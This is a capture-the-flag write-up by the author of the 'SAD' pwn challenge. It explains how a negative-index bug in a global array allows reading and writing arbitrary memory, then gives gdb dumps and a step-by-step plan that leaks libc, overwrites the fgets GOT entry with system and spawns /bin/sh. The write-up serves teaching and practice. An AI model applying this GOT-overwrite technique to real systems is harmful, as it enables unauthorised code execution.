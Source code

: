 ## Challenge Name: SAD
**Category**: Pwn

**Points**: 499

**Solves**: 2

**Challenge Description**: There's a secret agent database (SAD) I
 just got access to, I wonder if there's more we can access beyond the secret agent names...

Given Files:
* [sad](sad)
* [chall.c](chall.c)
* [libc](libc6_2.35-0ubuntu3.6_amd64.so)
* [dynamic linker](ld.so)
* [solve.py](solve.py)

This was the first challenge I ever wrote for a ctf and I hope the players enjoyed it. Here is my intented solution and it also happens to be my first ever writeup so I apologise in advance if it is unclear.

## Solution
Running the binary we get
```
root@8bbc2ed97cff:/home/sieberr# ./sad
Welcome to the secret agent database (sad)!!!
Someone told me it can be hacked with ease...
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 1
Agent number: 0
[Agent no. 0]: Alice
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 2
Agent number: 0
New name: AAAA
[Agent no. 0]: AAAA

--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 3
Bye
```
We can view and edit agent names based off an indexing system. Looking through the source code, we see that agents is an array stored in the .bss section as it is a global array.
```
char agents[][8] = {"Alice","Bob","Craig","David","Eve","Faythe"};
``` 
We can access negative indexes of the agents array as it only checks if the index is smaller than 8, meaning that we can read and write arbitary memory in this program. 
```
    while (1) {
        menu();
        scanf("%d", &choice);
        switch(choice) {
            case 1:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 2:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                getchar();
                printf("New name: ");
                fgets(agents[index],8,stdin);
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 3:
                puts("Bye");
                exit(1);
            default:
                puts("Invalid Choice");
        }
```
In addition, the program is complied with no relro so the global offset table(got) is writeable. The got contains entries to functions in libc so that they are linked dynamically when the code runs.
```
//gcc  ./chall.c -Wl,-z,norelro -o sad
```

## Exploit
We can leak the addresses of libc functions in the got to defeat aslr. Examining memory in gdb, we can see that the printf got entry is at `0x555555600f28` and `-11` index of agents.
```
pwndbg> x/20gx 0x555555600f20
0x555555600f20: 0x00007ffff7e13e50      0x00007ffff7df36f0
0x555555600f30: 0x00007ffff7e12380      0x00007ffff7e1aae0
0x555555600f40: 0x00007ffff7df5090      0x00007ffff7dd85f0
0x555555600f50: 0x0000000000000000      0x0000000000000000
0x555555600f60: 0x0000000000000000      0x0000555555600f68
0x555555600f70: 0x0000000000000000      0x0000000000000000
0x555555600f80 <agents>:        0x0000006563696c41      0x0000000000626f42
0x555555600f90 <agents+16>:     0x0000006769617243      0x0000006469766144
0x555555600fa0 <agents+32>:     0x0000000000657645      0x0000656874796146
0x555555600fb0 <stdin@@GLIBC_2.2.5>:    0x00007ffff7fadaa0      0x0000000000000000
pwndbg> got

GOT protection: No RELRO | GOT functions: 6

[0x555555600f20] puts@GLIBC_2.2.5 -> 0x7ffff7e13e50 (puts) ◂— endbr64
[0x555555600f28] printf@GLIBC_2.2.5 -> 0x7ffff7df36f0 (printf) ◂— endbr64
[0x555555600f30] fgets@GLIBC_2.2.5 -> 0x7ffff7e12380 (fgets) ◂— endbr64
[0x555555600f38] getchar@GLIBC_2.2.5 -> 0x7ffff7e1aae0 (getchar) ◂— endbr64
[0x555555600f40] __isoc99_scanf@GLIBC_2.7 -> 0x7ffff7df5090 (__isoc99_scanf) ◂— endbr64
[0x555555600f48] exit@GLIBC_2.2.5 -> 0x7ffff7dd85f0 (exit) ◂— endbr64
```
The offset of system from printf is `0xf980` and we can overwrite the the a got entry to point to system in libc. This means that when that function is called, system is actually ran with all the original arguments.
```
pwndbg> x printf-system
0xf980: Cannot access memory at address 0xf980
```
A good victim would be `fgets` as it is called in this way
```
fgets(agents[index],8,stdin);
```
So when the got entry of `fgets` is overwritten to point to `system`. `system` with the first argument being an index of the `agents` array we can control and edit to be `/bin/sh` is called.
```
system(agents[index]);
```
1. Leak the `printf` address by reading -11 index of the `agents` array and calculate the address of `system` (Libc is given)

2. Edit an entry of `agents` array to `/bin/sh` 

3. Edit `fgets` (offset -10) got entry to point to system.

4. Choose to edit the index of `agents` array with `/bin/sh` written to trigger call to `system`


### Flag
sctf{4rr4y_00b5_4r3_d4ng3rou5}
